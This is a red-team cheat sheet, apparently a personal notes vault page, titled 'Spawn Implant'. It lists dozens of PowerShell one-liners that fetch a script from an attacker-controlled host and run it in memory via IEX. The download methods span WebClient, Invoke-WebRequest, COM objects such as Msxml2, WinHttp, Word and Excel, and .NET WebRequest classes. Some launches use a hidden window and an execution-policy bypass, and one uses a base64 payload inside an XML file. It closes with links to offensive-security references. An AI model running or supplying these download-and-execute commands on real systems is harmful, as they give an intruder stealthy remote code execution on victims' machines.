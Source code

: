 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - file-transfer-and-data-exfiltration
  - living-off-the-land
  - windows
---
```

# Spawn Implant

## 01 - Command Prompt

System32 is for 32-bit powershell payloads

```
C:\Windows\system32\WindowsPowershell\v1.0\powershell.exe -nop -w hidden -ep bypass -c "IEX(New-Object Net.Webclient).DownloadString('http://<IP>/implant.ps1')"
```

SysWOW64 is for 64-bit powershell payloads

```
C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -nop -w hidden -ep bypass -c "IEX(New-Object Net.Webclient).DownloadString('http://<IP>/shell.ps1')"
```

## 02 - PowerShell

### 2.1 - Cmdlets

#### 2.1.1 - `Invoke-RestMethod`

```
PS C:\> IEX (Invoke-RestMethod "http[s]://<IP>[:<PORT>]/implant.ps1)
```

#### 2.1.2 - `Invoke-WebRequest`

```
PS C:\> Invoke-WebRequest http[s]://<IP>[:<PORT>]/implant.ps1 | iex
```

Internet Explorer backwards compatibility.

```
PS C:\> Invoke-WebRequest https[s]://<IP>[:<PORT>]/implant.ps1 -UseBasicParsing | IEX
```

### 2.2 - PowerShell Objects

#### 2.1.1 - `DownloadString`

```
PS C:\> iex (New-Object Net.WebClient).DownloadString('http[s]://<IP>:<PORT>/implant.ps1')
```

#### 2.1.2 - `DownloadData`

```powershell
PS C:\> $data = (New-Object Net.WebClient).DownloadData('http[s]://<IP>[:<PORT>]/implant.ps1'); $implant = [System.Text.Encoding]::ASCII.GetString($data); IEX $implant
```

#### 2.1.3 - `OpenRead`

```powershell
PS C:\> IEX (New-Object System.IO.StreamReader ((New-Object Net.Webclient).OpenRead('http[s]://<IP>:<PORT>/implant.ps1'))).ReadToEnd()

PS C:\> $read = (New-Object Net.Webclient).OpenRead('http[s]://<IP>[:<PORT>]/implant.ps1'); $reader = New-Object System.IO.StreamReader $read; $implant = $reader.ReadToEnd(); IEX $implant
```

#### 2.1.4 - `XmlDocument`

An XML file.

```xml
<#
<?xml version="1.0"?>
<command>
   <a>
      <execute>PS C:\> IEX ([System.Text.Encoding]::Unicode.GetString(([Convert]::FromBase64String('<base64_encoded>'))))</execute>
   </a>
  </command>
#>
```

How to execute it.

```powershell
PS C:\> $xmldata = New-Object System.Xml.XmlDocument; $xmldata.Load('http[s]://<IP>[:<PORT>]/implant.xml'); IEX ($xmldata.command.a.execute)
```

### 2.3 - COM Objects

#### 2.3.1 - `Msxml2.XMLHTTP`

```powershell
PS C:\> $http = New-Object -ComObject Msxml2.XMLHTTP; $http.open('GET', 'http[s]://<IP>[:<PORT>]/implant.ps1', $false); $http.send(); IEX $http.responseText

PS C:\> $http = [activator]::CreateInstance([type]::GetTypeFromCLSID('F6D90F16-9C73-11D3-B32E-00C04F990BB4')); $http.open('GET', 'http[s]://<IP>[:<PORT>]/implant.ps1', $false); $http.send(); IEX $http.responseText
```

#### 2.3.2 - `Msxml2.XMLHTTP.3.0`

```powershell
PS C:\> $http = New-Object -ComObject Msxml2.XMLHTTP.3.0; $http.open('GET', 'http[s]://<IP>[:<PORT>]/implant.ps1', $false); $http.send(); IEX $http.responseText

PS C:\> $http = [activator]::CreateInstance([type]::GetTypeFromCLSID('F5078F35-C551-11D3-89B9-0000F81FE221')); $http.open('GET', 'http[s]://<IP>[:<PORT>]/implant.ps1', $false); $http.send(); IEX $http.responseText
```

#### 2.3.3 - `Msxml2.XMLHTTP.6.0`

```powershell
PS C:\> $http = New-Object -ComObject Msxml2.XMLHTTP.6.0; $http.open('GET', 'http[s]://<IP>[:<PORT>]/implant.ps1', $false); $http.send(); IEX $http.responseText

PS C:\> $http = [activator]::CreateInstance([type]::GetTypeFromCLSID('88d96a0a-f192-11d4-a65f-0040963251e5')); $http.open('GET', 'http[s]://<IP>[:<PORT>]/implant.ps1', $false); $http.send(); IEX $http.responseText
```

#### 2.3.4 - `InternetExplorer.Application`

```powershell
PS C:\> $iexplorer = New-Object -ComObject InternetExplorer.Application; $iexplorer.visible = $False; $iexplorer.navigate('http[s]://<IP>[:<PORT>]/implant.ps1'); Start-Sleep 5; $response = $iexplorer.Document.body.innerHTML; $iexplorer.quit(); IEX $response

$iexplorer = [activator]::CreateInstance([type]::GetTypeFromCLSID('0002DF01-0000-0000-C000-000000000046')); $iexplorer.visible = $False; $iexplorer.navigate('http[s]://<IP>[:<PORT>]/implant.ps1'); Start-Sleep 5; $response = $iexplorer.Document.body.innerHTML; $iexplorer.quit(); IEX $response
```

#### 2.3.5 - `WinHttp` (not proxy aware)

```powershell
PS C:\> $http = New-Object -ComObject WinHttp.WinHttpRequest.5.1; $http.open('GET','http[s]://<IP>[:<PORT>]/implant.ps1', $false); $http.send(); IEX $http.responseText

PS C:\> $http = [activator]::CreateInstance([type]::GetTypeFromCLSID('2087c2f4-2cef-4953-a8ab-66779b670495')); $http.open('GET', 'http[s]://<IP>[:<PORT>]/implant.ps1', $false); $http.send(); IEX $http.responseText
```

#### 2.3.6 - `Word.Application`

```powershell
PS C:\> $DCOMWord = New-Object -ComObject Word.Application; While($DCOMWord.Busy) { Start-Sleep -Seconds 1 } $DCOMWord.Visible = $False; $document = $DCOMWord.Documents.Open('http[s]://<IP>[:<PORT>]/implant.ps1'); While($DCOMWord.Busy) { Start-Sleep -Seconds 1 } IEX $document.Content.Text; $DCOMWord.Quit(); [Void][System.Runtime.InteropServices.Marshal]::ReleaseComObject($DCOMWord)

PS C:\> $DCOMWord = [activator]::CreateInstance([type]::GetTypeFromCLSID('000209FF-0000-0000-C000-000000000046')); While($DCOMWord.Busy) { Start-Sleep -Seconds 1 } $DCOMWord.Visible = $False; $document = $DCOMWord.Documents.Open('http[s]://<IP>[:<PORT>]/implant.ps1'); While($DCOMWord.Busy) { Start-Sleep -Seconds 1 } IEX $document.Content.Text; $DCOMWord.Quit(); [Void][System.Runtime.InteropServices.Marshal]::ReleaseComObject($DCOMWord)
```

#### 2.3.7 - `Excel.Application`

```powershell
PS C:\> $DCOMExcel = New-Object -ComObject Excel.Application; While($DCOMExcel.Busy) { Start-Sleep -Seconds 1 } $DCOMExcel.DisplayAlerts=$False; $Null = $DCOMExcel.Workbooks.Open('http[s]://<IP>[:<PORT>]/implant.ps1'); While($DCOMExcel.Busy) { Start-Sleep -Seconds 1 } IEX (($DCOMExcel.Sheets.Item(1).Range("A1:N"+$DCOMExcel.Sheets.Item(1).UsedRange.Rows.Count).Value2|?{(Variable _).Value})-Join"`n"); $DCOMExcel.Quit(); [Void][System.Runtime.InteropServices.Marshal]::ReleaseComObject($DCOMExcel)
```

### 2.4 - .NET

#### 2.4.1 - `WebRequest`

```powershell
PS C:\> $webrequest = [System.Net.WebRequest]::Create('http[s]://<IP>[:<PORT>]/implant.ps1'); $response = $webrequest.GetResponse(); $responsestream = $response.GetResponseStream(); $reader = New-Object System.IO.StreamReader $responsestream; $implant = $reader.ReadToEnd(); IEX $implant
```

#### 2.4.2 - `HttpWebRequest`

```powershell
PS C:\> $httpwebrequest = [System.Net.HttpWebRequest]::Create('http[s]://<IP>[:<PORT>]/implant.ps1'); $response = $httpwebrequest.GetResponse(); $responsestream = $response.GetResponseStream(); $reader = New-Object System.IO.StreamReader $responsestream; $implant = $reader.ReadToEnd(); IEX $implant
```

#### 2.4.3 - `FileWebRequest`

```powershell
PS C:\> $filewebrequest = [System.Net.FileWebRequest]::Create('http[s]://<IP>[:<PORT>]/implant.ps1'); $response = $filewebrequest.GetResponse(); $responsestream = $response.GetResponseStream(); $reader = New-Object System.IO.StreamReader $responsestream; $implant = $reader.ReadToEnd(); IEX $implant
```

#### 2.4.4 - `FtpWebRequest`

```powershell
PS C:\> $ftpwebrequest = [System.Net.FtpWebRequest]::Create('http[s]://<IP>[:<PORT>]/implant.ps1'); $response = $ftpwebrequest.GetResponse(); $responsestream = $response.GetResponseStream(); $reader = New-Object System.IO.StreamReader $responsestream; $output = $reader.ReadToEnd(); IEX $output
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Windows/Host/0xG - Processes AND Services AND Software/Discover Programs/Manual/Living off the Land|Living off the Land: Discover Programs]]

- [[Web Delivery|Metasploit: Web Drive-by]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/Linux/Network Protocols/SMB|File Transfer and Data Exfiltration: Samba]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/Windows/Network Protocols/SMB|File Transfer and Data Exfiltration: Windows SMB]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/Linux/Network Protocols/WebDAV|File Transfer and Data Exfiltration: Linux WebDAV]]

- [[4shared]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/04 - Security Endpoints/Windows/Microsoft/Applocker/CSC/C2 Frameworks|Applocker Defense Evasion: Metasploit]]

## Hacktricks

- [Hacktricks: Shells - Windows](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/shells/windows.html)

### Hacking Articles

- [Hacking Articles: Windows Exploitation MSBuild](https://www.hackingarticles.in/windows-exploitation-msbuild/)

### Red Team Notes

- [Red Team Notes: Using MSBuild to Execute Shellcode in C#](https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c)

### SS64

- [SS64: Powershell](https://ss64.com/ps/powershell.html)